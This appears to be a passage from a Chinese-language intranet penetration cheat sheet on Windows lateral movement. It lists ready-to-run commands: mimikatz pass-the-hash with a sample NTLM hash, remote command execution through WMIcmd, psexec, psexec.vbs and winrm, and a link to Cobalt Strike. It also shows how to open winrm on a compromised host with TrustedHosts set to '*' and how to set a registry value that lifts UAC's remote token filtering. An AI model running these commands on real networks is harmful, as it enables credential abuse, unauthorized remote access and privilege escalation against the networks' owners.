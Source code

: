 --

### 3.mimikatz传递hash方式连接+at计划任务执行命令：
```bash
#传递hash
mimikatz.exe privilege::debug "sekurlsa::pth /domain:. /user:administrator /ntlm:2D20D252A479F485CDF5E171D93985BF" 
dir \\192.168.1.185\c$
```

--

### 4.WMIcmd执行命令,有回显：
```bash
WMIcmd.exe -h 192.168.1.152 -d hostname -u pt007 -p admin123 -c "ipconfig"
```
程序下载地址：
https://github.com/nccgroup/WMIcmd/releases

--

### 5.Cobalt strkie远程执行命令与hash传递攻击:  
[Cobalt Strike](https://wiki.wgpsec.org/knowledge/intranet/Cobalt-Strike.html)  

--

### 6.psexec.exe远程执行命令:
```bash
#接受许可协议
psexec /accepteula 
sc delete psexesvc
psexec \\192.168.1.185 -u pt007 -p admin123 cmd.exe
```

--

### 7.psexec.vbs远程执行命令:
```bash
cscript psexec.vbs 192.168.1.158 pt007 admin123 "ipconfig"
```

--

### 8.winrm远程执行命令:
```bash
#肉机上面快速启动winrm服务，并绑定到5985端口：
winrm quickconfig -q
winrm set winrm/config/Client @{TrustedHosts="*"}
netstat -ano|find "5985"

#客户端连接方式：
winrs -r:http://192.168.1.152:5985 -u:pt007 -p:admin123 "whoami /all"
winrs -r:http://192.168.1.152:5985 -u:pt007 -p:admin123 cmd

#UAC问题,修改后，普通管理员登录后也是高权限:
reg add HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System /v LocalAccountTokenFilterPolicy /t REG_DWORD /d 1 /f
winrs -r:http://192.168.1.152:5985 -u:pt007 -p:admin123 "whoami /groups"
```
